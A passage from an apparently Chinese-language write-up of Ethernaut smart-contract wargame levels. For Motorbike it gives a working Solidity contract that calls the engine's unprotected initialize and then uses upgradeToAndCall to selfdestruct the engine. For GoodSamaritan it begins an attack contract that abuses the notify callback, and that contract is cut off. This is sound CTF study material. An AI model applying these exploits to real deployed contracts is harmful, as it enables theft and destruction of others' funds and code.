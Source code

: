 可以通过代理合约中存放 engine 合约的 slot 获取 engine 合约地址
engine 合约中 initial 方法 的 modifier 没有定义，谁都可以调用修改 upgrader  
engine 合约中更新合约部分使用 delegatecall, 新合约中存在 selfdesructor 的话，engine 也会执行这个逻辑自毁

```solidity
// SPDX-License-Identifier: MIT

pragma solidity ^0.8.0;

interface MotorBike{
    function initialize() external;
    function upgradeToAndCall(address newImplementation, bytes memory data) external payable;
}

contract Hack {
    // engine contract 0xAa6F4d8305deE2cd0A38173D1338eD54f6BCfaD6

    MotorBike private motorBike;

    constructor(address target) {
        motorBike = MotorBike(target);
    }

    function hack() external {
        motorBike.initialize();
        motorBike.upgradeToAndCall(address(this), abi.encodeWithSelector(this.destruct.selector));
    }

    function destruct() external {
        selfdestruct(payable(msg.sender));
    }

}
```

## 25-GoodSamaritan

转账方是合约的话会调用一个 notify，但是这个 notify 的实现依赖调用的合约，有风险

```solidity
// SPDX-License-Identifier: MIT

pragma solidity ^0.8.0;

interface IGood{
    function coin() external view returns(address);
    function wallet() external view returns(address);
    function requestDonation() external returns(bool enoughBalance);
}

interface ICoin{
    function balances(address) external view returns(uint256);
}

contract Hack {
    IGood private good;
    error NotEnoughBalance();

    constructor (address target) {
        good = IGood(target);
    }

    function hack() external {
        good.requestDonation();
    }
```
